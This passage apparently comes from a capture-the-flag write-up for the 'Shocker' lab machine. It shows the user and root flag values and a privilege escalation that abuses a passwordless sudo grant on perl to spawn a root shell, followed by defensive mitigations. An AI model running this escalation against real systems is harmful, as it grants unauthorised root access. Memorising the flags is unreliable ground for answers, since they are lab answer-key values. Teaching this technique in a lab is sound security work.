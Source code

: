 ```bash
shelly@Shocker:/home/shelly$ cat /home/shelly/user.txt   
2ec24e11320026d1e70ff3e16695b233
```

## Privilege Escalation

One of the easist privilge escalation vectors to check for in Linux is `sudo` permissions. We can list sudo permissions like the following:

```none
$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

We can then abuse the `/usr/bin/perl` command to gain remote code execution on the host with root privileges:

```none
$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
root@Shocker:/home/shelly# id
uid=0(root) gid=0(root) groups=0(root)
```

Navigating to `/root`, we can get the root flag:

```none
cat /root/root.txt
52c2715605d70c7619030560dc1ca467
```

## Mitigations

* Upgrade bash to the latest version available.
* Use a dedicated `apache` user to run the web server. This way, you can still keep `shelly` as an admin user on the host and still run apache while reducing privilege escalation attack vectors.

Also, be very careful about granting `sudo` permissions to users. In this case, `/usr/bin/perl` is a very powerful command that can instantly grant a user a root shell.
